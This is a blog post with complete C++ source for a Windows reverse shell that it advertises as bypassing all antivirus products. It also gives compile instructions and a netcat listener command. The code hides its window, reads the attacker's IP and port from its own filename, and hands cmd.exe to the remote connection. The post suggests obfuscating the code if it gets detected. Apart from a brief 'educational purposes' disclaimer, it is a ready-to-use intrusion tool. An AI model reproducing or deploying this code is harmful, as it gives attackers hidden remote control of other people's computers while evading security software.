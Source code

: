 ```yaml
---
title: "Fud Reverse Shell For Windows (C++)"
date: 20 December 2021
description: C++ Reverse Shell For Windows For Bypassing AV Solutions .
tags: bypass-av
words: 455
---
```


<Prompt title="Heads up!" status="warn">
All content of this blog is only for Educational Purposes ! 
Do Not Use tools or methods of this blog on any hardware or software without authorization of the owner !
</Prompt>

Today i share a c++ reverse shell source code for windows , as time of writing , its fully undetectable !
Its bypassing all antivirus solutions and works with
- Windows 11 
- Windows 10 
- Windows 8 
- Windows 7 
- Windows Server 2019 
- Windows Server 2016 

The source code is not obfuscated and if along the way get detected by av solutions , We can obfuscate it and its ready to go again !

One of the cool methods of this reverse shell is the ip and port for your listiner , Its hardcoded on name of the .exe file !

For Example your listiner ip and port is = 192.168.1.1:8080
You rename the exe file to this :
```cmd
192x168x1x1_8080.exe
```

# How Compile It

#### First you copy the source code :
```c
#include <winsock2.h>
#include <stdio.h>
#include <string>
#include <tchar.h>
#include <Windows.h>

#pragma comment(lib,"ws2_32")
#pragma warning(disable:4996) 
WSADATA wsaData; SOCKET s1;
struct sockaddr_in R;
STARTUPINFO A;
PROCESS_INFORMATION B;
using std::string;
string getFileName(const string& s) {

	char sep = '/';
	
	#ifdef _WIN32
		sep = '\\';
	#endif
	size_t i = s.rfind(sep, s.length());
	if (i != string::npos) {
		return(s.substr(i + 1, s.length() - i));
	}

	return("");
}

int main(int argc, char *argv[])
{
	FreeConsole(); //Hide window
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	string path =getFileName(argv[0]);
	path.resize(path.size() - 4); //remove .exe from the file
	//replace x to "."
	for (int i = 0; i < path.size(); i++) {
		if (path[i] == 'x') {
			path[i] = '.';
		}
	}
	//PORT and IP from the executable
	size_t i = path.rfind("_", path.length());
	string port = path.substr(i+1, i-path.length());
	string ip = path.substr(0, i);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
	R.sin_family = AF_INET;
	R.sin_port = htons(std::stoul(port, nullptr, 0));
	R.sin_addr.s_addr = inet_addr(ip.c_str());
	WSAConnect(s1, (SOCKADDR*)&R, sizeof(R), 0, 0, 0, 0);
	memset(&A, 0, sizeof(A));
	A.cb = sizeof(A);
	A.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	A.hStdInput = A.hStdOutput = A.hStdError = (HANDLE)s1;
	TCHAR c[256] = L"cm";
	TCHAR d[256] = L"d.exe";
	CreateProcess(NULL, _tcscat(c, d), 0, 0, 1, 0, 0, 0, &A, &B);

}
```
#### Second Save it with whatever name you want with .cpp extension 
For Example I Save The Source Code With This Name :
```cmd
mine.cpp
```
You can compile this in two ways :
- Visual Studio
- MSVC Compiler
For compiling in visual studio you just have to make a new project and add the .cpp file to the project and compile for x64 .

If you dont have visual studio , you can use Microsoft MSVC Compiler Tool
<Resource
  links={[
    {
      title: "MSVC Compiler Tool",
      link: "https://docs.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170",
    },
  ]}
/>

After Downloading MSVC Compiler Tool you just have to open new cmd or powershell prompt on the folder you saved .cpp file and run this command :
```cmd
cl.exe mine.cpp
```
Thats It ! After compiling you have a exe file named mine.exe .
Rename the exe file with your listiner ip and port like this :
```cmd
192x168x1x1_8080.exe
```
Now you just have listen a port and run the exe file on the windows system . 

# Listen a port on Windows

For listen a port on windows and get the reverse connection , i suggest netcan for windows 

<Resource
  links={[
    {
      title: "Netcan For Windows",
      link: "https://github.com/rahuldottech/netcat-for-windows/releases",
    },
  ]}
/>

After downloading netcat for windows listen a port with this command :
```cmd
nc64.exe -lvnp 8080
```
Thats it . 